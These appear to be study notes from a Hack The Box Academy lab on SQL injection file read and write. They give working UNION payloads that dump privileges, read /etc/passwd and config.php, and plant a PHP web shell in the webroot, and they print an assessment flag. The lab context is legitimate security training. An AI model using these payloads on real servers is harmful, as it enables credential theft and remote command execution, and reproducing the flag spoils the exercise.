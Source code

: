 # Read & Write Files

## Read File

### Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation

First, we have to determine which user we are within the database

If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do.&#x20;

**Find current DB user**

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

### **User Privileges**

Now that we know our user, we can start looking for what privileges we have with that user.

**Test super admin privileges**

```sql
SELECT super_priv FROM mysql.user
```

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

_If we had many users within the DBMS_, we can add `WHERE user="root"` to only show privileges for our current user `root`:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

**Dumping other privileges we have, directly from the schema**

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

_If we had many users within the DBMS_

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE user="root"-- -
```

### LOAD\_FILE

[LOAD\_FILE()](https://mariadb.com/kb/en/load\_file/) function can be used in MariaDB / MySQL to read data from files.

```sql
SELECT LOAD_FILE('/etc/passwd');
```

> We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/load_file_sqli.png" alt=""><figcaption></figcaption></figure>

We were able to successfully read the contents of the passwd file through the SQL injection.

### Another Example

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/load_file_search.png" alt=""><figcaption></figcaption></figure>

### Assessment

We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- - 
```

dB\_pAssw0rd\_iS\_flag!

## Writing File

### Privileges

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

The [secure\_file\_priv](https://mariadb.com/kb/en/server-system-variables/#secure\_file\_priv) variable is used to determine where to read/write files from

**find out the value of `secure_file_priv`**

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

using a `UNION` injection, we have to get the value using a `SELECT` statement.

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

### SELECT INTO OUTFILE

The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```shell-session
cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly `SELECT` strings into files, allowing us to write arbitrary files to the back-end server.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

```shell-session
cat /tmp/test.txt 

this is a test
```

```shell-session
ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

owned by the `mysql` user.

### Writing Files through SQL Injection

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

<figure><img src="https://academy.hackthebox.com/storage/modules/33/write_proof.png" alt=""><figcaption></figcaption></figure>

No error = query succeeded

**Checking for the file `proof.txt` in the webroot**

<figure><img src="https://academy.hackthebox.com/storage/modules/33/write_proof_text.png" alt=""><figcaption><p>http://SERVER_IP:PORT/proof.txt</p></figcaption></figure>

### Writing a Web Shell

We can write the following PHP webshell to be able to execute commands directly on the back-end server:

```php
<?php system($_REQUEST[0]); ?>
```

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:

`http://SERVER_IP:PORT/shell.php?0=id`

### Assessment

Find the flag by using a webshell.

```
search.php?port_code=cn'+union+select+""%2C'<%3Fphp+system(%24_REQUEST[0])%3B+%3F>'%2C+""%2C+""+into+outfile+'%2Fvar%2Fwww%2Fhtml%2Fshell.php'--+-
```

<figure><img src="../../.gitbook/assets/image (76) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (49) (1).png" alt=""><figcaption></figcaption></figure>









